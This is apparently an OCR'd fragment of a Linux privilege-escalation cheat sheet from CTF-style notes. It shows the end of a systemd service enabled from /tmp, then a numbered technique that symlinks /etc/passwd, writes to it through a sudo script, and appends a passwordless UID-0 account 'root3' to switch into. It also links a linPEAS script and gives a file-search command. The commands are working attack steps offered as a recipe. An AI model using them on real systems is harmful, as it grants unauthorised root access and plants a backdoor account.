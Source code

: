       [Install]
      WantedBy=multi-user.target


   * /bin/systemctl enable /tmp/root.service 

   * /bin/systemctl start root   

 ========================================================================================================== 
 ## 10. Privilege Escalation file give you a permations
  
   * ln -s /etc/passwd /home/larissa/test
   * sudo /home/larissa/vic.sh larissa rw /home/larissa/test
   * echo "root3::0:0:root3:/root:/bin/bash" >> ./test
   * su root3
   
 ==========================================================================================================   
 
 - linPEAS  https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh


 ========================================================================================================== 
   
  * find / -type f -name "user.Note" -exec ls -al {} \; 2>/dev/null 